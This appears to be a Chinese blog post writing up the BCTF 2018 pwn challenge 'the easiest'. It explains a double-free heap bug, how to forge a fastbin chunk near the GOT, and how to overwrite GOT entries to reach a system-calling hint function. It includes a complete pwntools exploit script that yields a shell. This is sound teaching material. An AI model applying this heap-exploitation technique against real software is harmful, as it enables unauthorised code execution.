 ```yaml
---
layout:     post
title:      BCTF write up
subtitle:    pwn
date:       2018-12-7
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - 比赛复盘
---
```



> BCTF

# the easiest

首先checksec，查看保护，没有pie保护，我们可以尝试写got表。

![1544151410259](F:\xineting.github.io\img\1544151410259.png)

总共有两个选择add，delete。

![1544151429146](F:\xineting.github.io\img\1544151429146.png)

并且delete可以删除

我 们IDA中有一个hint函数，因为我们看到got表有system所以，找一下，就找到了！

![1544155933667](F:\xineting.github.io\img\1544155933667.png)

我们可以修改got表，然后跳到这里就可以了。

至于这个程序，随便看一下，就知道是个double free的问题！

```python
#coding:utf8
from pwn import *
import sys

def add(id,size,content):
        p.sendlineafter("2 delete","1")
        p.sendlineafter("(0-11):",str(id))
        p.sendlineafter("Length:",str(size))
        p.sendlineafter("C:",content)

def free(id):
        p.sendlineafter("2 delete","2")
        p.sendlineafter("(0-11):",str(id))

def debugf():
        gdb.attach(p,"b *0x400D38")


context.log_level = "debug"
context.terminal = ["tmux","splitw","-v"]
p=process("./1")
elf=ELF("./1")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
add(1,100,"aaaaaaaaaaaaaaaaaaaaaaaaa")

add(2,100,"bbbbbbbbbbbbbbbbbbbbbbbb")

if sys.argv[1]=="y":
         debugf()

free(1)
free(2)
free(1)
```

这里没有报错，然后我们就可以构造任意的chunk进行写入。然后我们思考构造那个chunk呢？

我们可以看到got表区域，后4位为0x7f.

![1544158629895](F:\xineting.github.io\img\1544158629895.png)

所以可以伪造这个chunk，然后进行got表的修改。

```python
free(1)
free(2)
free(1)
pause()
```

free3次然后malloc把第一块的值写为我们伪造的块的地址，然后malloc两次，我们的fasbin就指向了我们伪造的chunk，这个时候如果再malloc就可以修改got表了。

```python
add(1,0x68,p64(0x602045))
add(2,0x68,"hh")
payload = '\x00\x00\x00' + p64(0x400946) * 6
add(3,0x68,"hhh")######此时指向的就是我们伪造的chunk了
add(4,0x68,payload)
```

![1544158909167](F:\xineting.github.io\img\1544158909167.png)

![1544159354143](F:\xineting.github.io\img\1544159354143.png)

可见我们已经修改成功，接着就是scanf的got调用，接着就getshell了

脚本如图

```python
#coding:utf8
from pwn import *
import sys

def add(id,size,content):
        p.sendlineafter("2 delete","1")
        p.sendlineafter("(0-11):",str(id))
        p.sendlineafter("Length:",str(size))
        p.sendlineafter("C:",content)

def free(id):
        p.sendlineafter("2 delete","2")
        p.sendlineafter("(0-11):",str(id))

def debugf():
        gdb.attach(p,"b *0x400D38")


context.log_level = "debug"
context.terminal = ["tmux","splitw","-v"]
p=process("./1")
elf=ELF("./1")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
add(1,100,"aaaaaaaaaaaaaaaaaaaaaaaaa")

add(2,100,"bbbbbbbbbbbbbbbbbbbbbbbb")

if sys.argv[1]=="y":
         debugf()

free(1)
free(2)
free(1)
pause()
add(1,0x68,p64(0x602045))
add(2,0x68,"hh")
payload = '\x00\x00\x00' + p64(0x400946) * 6
add(3,0x68,"hhh")

add(4,0x68,payload)
p.interactive()
```

